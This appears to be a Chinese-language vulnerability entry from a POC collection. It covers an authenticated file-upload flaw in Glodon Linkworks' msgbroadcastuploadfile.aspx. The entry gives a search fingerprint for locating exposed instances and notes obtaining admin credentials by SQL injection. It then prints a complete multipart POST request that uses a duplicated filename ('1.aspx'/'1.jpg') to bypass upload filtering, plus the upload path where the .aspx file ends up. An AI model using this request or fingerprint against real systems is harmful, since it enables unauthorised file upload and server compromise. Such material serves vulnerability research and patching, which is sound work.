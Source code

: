 # 广联达 Linkworks msgbroadcastuploadfile.aspx 后台文件上传漏洞

## 漏洞描述

广联达 Linkworks msgbroadcastuploadfile.aspx 存在后台文件上传漏洞，攻击者通过SQL注入获取管理员信息后，可以登陆发送请求包获取服务器权限

## 漏洞影响

广联达 Linkworks

## 网络测绘

web.body="/Services/Identification/"

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691730736125-bbb199fa-01fb-4790-b2a7-d813481d8d88-20230812091116146.png)

GTP.IM.Services.Group.WebSite.GTP.IM.Services.Group 存在文件上传，上传后在当前目录 Upload下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691801728377-50f7e7cb-080f-47fa-9e3d-ad9666fc99c8.png)

通过SQL注入获取管理员账号密码后登陆后台上传文件,验证POC

```php
POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Cookie: 0_styleName=styleA

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; filename="1.aspx";filename="1.jpg"
Content-Type: application/text

Test

------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691733300613-63fefc8c-2e2d-478e-97b8-01ce3f9daf56.png)

```php
/GTP/IM/Services/Group/Upload/xxx-xxx-test.aspx
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691802188135-636da27c-837c-432a-88bc-2e215572b2af.png)
